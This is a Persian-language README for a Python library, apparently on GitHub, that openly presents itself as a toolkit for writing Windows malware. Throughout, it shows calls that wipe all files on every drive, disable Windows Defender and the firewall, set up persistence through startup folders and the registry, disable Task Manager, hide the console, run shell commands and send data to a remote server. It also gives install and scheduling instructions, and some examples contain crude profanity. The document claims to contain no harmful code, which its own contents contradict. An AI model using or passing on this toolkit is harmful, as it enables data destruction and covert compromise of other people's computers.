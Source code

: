 # به داکیومنت کتابخونه من خوش امدید!
این یک پروژه کاملا اوپن سورس هست که در راستای توسعه بدافزار با پایتون درحال توسعه است

درون سورس هیچ گونه کد خطرناک یا بدافزاری پنهان نشده است و صرفا در راستای کمک به توسعه بهتر برنامه های پایتونی توسعه یافته است


# نحوه نصب کتابخونه!
کافیه اول با استفاده از گیت سورس داخل همین صفحه رو دانلود کنید به کامند زیر

    git clone https://github.com/6E6L6F/Bad_Windows_ELF
   سپس با یوزر ادمین آن را نصب کنید
   

    python3 setup.py install

##نحوه فراخوانی کتابخونه و کلاس ها و توابع آن!

پس از نصب کتابخونه کافیه در محیط کد نویسی خود به صورت زیر کلاس اصلی را صدا بزنید

    from ELF_Wibdows.windows import BadWindows
   تعدادی تابع داخل این کلاس قرار دارد که تمامی آن ها اسینک هستن و برای اجرا شدن آن باید از یک کتابخونه دیگر استفاده کرد به صورت پیش فرض نصب هست
   

    import asyncio
   حالا یک تابع اصلی میسازیم و سپس کلاس را پاس میدهیم به یک متغیر و ان را صدا زده و خروجی ان را خواهیم گرفت
  

    async def main():
		main = BadWindows()
		result = await main.get_drive()
		print(result)
		    
    asyncio.run(main())
اگر کد زیر را اجرا کنید مقدار برگشتی یک لیست حاوی تعدادی دیکشنری داخلش هست که اسم و ادرس تمامی پارتیشن ها و درایو ها همراه با فرمت انان است

یک مثال ساده از چگونگی اجرای کد 


## کاربرد توابع همراه توضیحات

این کلاس در شروع کار تعداد کمی توابع درون خود دارد که به مرور زمان بیشتر خواهد شد

اما توابع

برای گرفتن لیست کل فایل های ریشه ای یک دایرکتوری از تابع زیر استفاده میکنیم 

    await main.get_files()
##
   برای اتصال یک کانکشن با پروتکل تی سی پی از تابع زیر استفاده میکنیم

    await main.connect_to_server(server_address='192.168.1.12' , port_address='8888' , data=b'man kos mikham')
>   این تابع ۳ پارامتر ورودی میگیره که ایپی ادرس سروری که باید وصل بشه بهشو میگیره و دومی پورت باز سرور و سومی در صورت دلخواه میتوانید یک دیتای را ارسال کنید سمت ان سرور
   و در خروجی یک اینستنس از کانکشن برمیگردونه ک در صورت نیاز میتوانید کار های بسیاری انجام دهید
##
تابع بعدی دستورات سیستمی را اجرا و سپس خروجی ان را به ما میدهد  

    result = await bad.run_command("ls")
    print(result)
##
این تابع شل اجرایی برنامه را مخفی میکند و در بک گراند اجرا میکند

    await main.hide_console()
  ##
  این تابع تمامی فایل های درون تمامی هارد ها و پارتیشن های قابل دسترسی ر ا حذف میکند

    await main.delete_all_file()
   ##
   تابع چنج بک گراند از نامش مشخص است که بک گراند کامپیوتر را تغییر میدهد

    await main.change_background(pathfile = '/Desktop/kos.jpg')
> این تابع یک پارامتر تحت عنوان مسیر فایل میگیرد که مسیر مکانی باید باشد که عکس در ان انجا ذخیره شده است و فرمت عکس باید یکی از دو حالت زیر باشد      .(png , jpg)

## 
تابعی در این کلاس وجود دارد که هر فایل اجرایی مد نظز شما را در استارت آپ ویندوز قرار میدهد تا اجرا شود

    await add_to_startup(file_path = "/Desktop/kos.exe")
  > این تابع یک پارامتر میگیرد که به طور پیش فرض خود سورس را در استارت اپ قرار میدهد اما میتونید ان را تغییر داده و هر برنامه ای را در استارت اپ قرار دهید
  
  ##
  یکی از توابع مهم و پرکاربرد در توسعه بدافزار ویندوزی اینجاست. این تابع ویندوز دفندر و فایروال را خاموش میکند
  

    await main.off_firewall_and_defender()

##
این تابع میاد ادرس یک فایل میگیره و بعد اونو از طریق ریجستر ویندوز به صورت اتوماتیک بعد از روشن شدن سیستم اجرا میکنه

    await main.add_registry_startup("C:\\elf.exe")
##
این تابع میاد ریجستر ویندوز رو دستکاری میکنه و تسک منیجر رو دیزیبل میکنه


    await main.disable_task_manager()



##
در حال حاضر این کلاس این مقدار تابع را درون خود جا داده است که به زودی تابع های جدید تری به ان اضافه خواهد شد

## کلاس ریپیت تایمر

این کلاس یک تابع میگیرد و سپس طی مقدار بازه زمانی مشخص ان را اجرا میکند به طور مثال هر ۱۰ ثانیه یکبار

نحوه فراخوانی

    from ELF_Linux.RepeateTime import RepeatedTimer
    
نحوه استفاده

    timer = RepeatedTimer(interval = 10 , functions = main , *args , **kwargs)
   
   برای اجرا
   

    timer.run()

برای قطع کردن آن

    timer.stop()
    

# Contact Me 
Telegram: @E_L_F_6_6_6
 
Instagram: @E_L_F_6_6_6
 
Rubika: @E_L_F_6_6_6
 
Bale: @E_L_F_6_6_6

